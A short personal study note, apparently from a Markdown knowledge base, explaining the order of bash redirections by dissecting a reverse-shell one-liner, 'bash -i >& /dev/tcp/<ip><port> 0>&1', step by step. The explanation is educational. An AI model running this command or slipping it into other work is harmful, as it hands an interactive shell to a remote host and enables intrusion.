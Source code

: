 ```yaml
---
date: 2019-11-05
lastmod: Wednesday, February 5, 2020 at 7:17:07 PM
tags: [[[Linux, Redirection]]]
---
```

# redirection in Linux

Redirections in Linux can be interpreted as following:

1. Redirections are run from left to right.
2. `>` is similar to `=`, which is an assignment
3. `&` is close to `$` in bash, which indicates variables

For the example in [[201911041338]],

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

Here are three parts:

1. `bash -i` which is the command to launch new shell
2. `>& /dev/tcp/<ip><port>`, which redirects the stdout of 1 to `/dev/tcp/<ip><port>` as the stdin
3. `0>&1` redirects the stdin as the stdout

The process steps are shown as following:

Initial status of `bash -i`
0=stdin
1=stdout

after `>& /dev/tcp/<ip><port>`

0=stdin
1=(stdin of) `/dev/tcp/<ip><port>` (the stdin is default)

after `0>&1`

0=(stdout of) `/dev/tcp/<ip><port>`
1=(stdin of) `/dev/tcp/<ip><port>`


Ref: [^9E9D0123FC2D] [^158BD4883761]

[^158BD4883761]: [[shell - What does "3>&1 1>&2 2>&3" do in a script? - Unix & Linux Stack Exchange]]

[^9E9D0123FC2D]: [[bash - Order of redirections - Unix & Linux Stack Exchange]]
